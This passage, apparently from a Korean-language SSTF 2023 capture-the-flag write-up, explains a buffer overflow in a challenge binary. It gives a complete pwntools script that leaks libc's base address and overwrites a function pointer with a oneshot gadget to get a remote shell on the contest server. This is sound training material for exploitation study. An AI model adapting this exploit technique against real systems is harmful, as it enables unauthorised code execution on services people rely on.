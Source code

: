 `main()`에서 BOF 취약점이 발생하는 부분으로 v6를 입력해서 v7을 덮어쓸 수 있다.

마침 v7으로 실행하는 함수의 인자 v8과 v9는 0이므로 oneshot 가젯을 이용해서 쉘을 획득할 수 있다.

![Untitled](SSTF%202023%20write%20up%204963128224b94fa58c699069450294ac/Untitled%201.png)

[그림]의 oneshot 가젯이 조건에 딱 맞는다. 

v7을 해당 oneshot 가젯으로 덮어쓰면 쉘을 획득할 수 있다.

### ○ exploit

```python
from pwn import *
import warnings

warnings.filterwarnings('ignore')

#context.log_level = 'debug' 

p = remote("2outs.sstf.site", 1337)   
#p = process("./9end2outs")

#pause()
# Leak libc
p.sendlineafter("> ", "system")
p.recvuntil("at ")
system = p.recv(14).decode()
libc_base = int(system, 16) - 0x50d60
print(hex(libc_base))

oneshot = libc_base + 0xebcf8

p.sendlineafter("> ", "printf")

# Exploit by oneshot
payload = b'a'*8 + p64(oneshot)
p.sendlineafter("> ", payload)

p.interactive()
```

## WEB - SQLi 101

---
